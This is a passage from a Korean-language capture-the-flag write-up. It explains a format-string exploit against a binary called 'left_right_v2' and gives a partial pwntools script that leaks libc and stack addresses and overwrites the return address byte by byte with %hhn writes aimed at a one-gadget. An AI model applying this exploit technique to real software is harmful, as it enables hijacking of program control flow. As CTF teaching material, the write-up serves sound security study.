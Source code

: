 우리가 값을 넣어야 하는 부분은 현재 스택에서 `[rsp+0x10]`에 위치하며 **print format string indexing**은 8번째를 가리킵니다.

따라서, `[rsp+0x10]` (`%8$hhn`)를 통해 one-gadget을 1byte씩 넣으면 된다. 하지만 해당 offset에 값이 정확하게 들어가기 위해서는 padding이 필요하다. padding이 존재하지 않을 경우 넣고자 하는 offset에 들어가지 않기에 필수적으로 필요하다.

```python
from pwn import *

def slog(name, addr):
        return success(": ".join([name, hex(addr)]))

def right():
    for i in range(3):
        p.sendlineafter('opt >> \n', str(1))
        p.sendlineafter('way >> \n', str(1))
        p.sendlineafter('move >> \n', str(1))
    p.sendlineafter('opt >> \n', str(1))
    p.sendlineafter('way >> \n', str(1))
    p.sendlineafter('move >> \n', str(1))

def left():
    for i in range(3):
        p.sendlineafter('opt >> \n', str(1))
        p.sendlineafter('way >> \n', str(2))
        p.sendlineafter('move >> \n', str(1))

def move():
    right()
    left()

p = process('./left_right_v2')
e = ELF('./left_right_v2')
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
main = libc.symbols['__libc_start_main'] + 231
og_list = [0x4f2a5, 0x4f302, 0x10a2fc]

move()
payload = '%13$p'
p.sendlineafter("What's your name?", payload)
p.recvuntil('=======================\n')

leak = int(p.recvuntil(b'\n')[:-1],16)

lb = leak - main
og = lb + og_list[0]

move()
payload = '%10$p'
p.sendlineafter("What's your name?", payload)
p.recvuntil('=======================\n')

ret = int(p.recvuntil(b'\n')[:-1],16) - 0xd8

slog('libc_base', lb)
slog('one-gadget', og)
slog('ret', ret)

move()
payload = b'%' + bytes(str(int((hex(og)[12:]),16)),'utf-8') + b'c%8$hhn'
payload += b'A' * (8 - len(payload) % 8)
payload += p64(ret)
p.sendlineafter(b'name? ',payload)

move()
payload = b'%' + bytes(str(int((hex(og)[10:12]),16)),'utf-8') + b'c%8$hhn'
```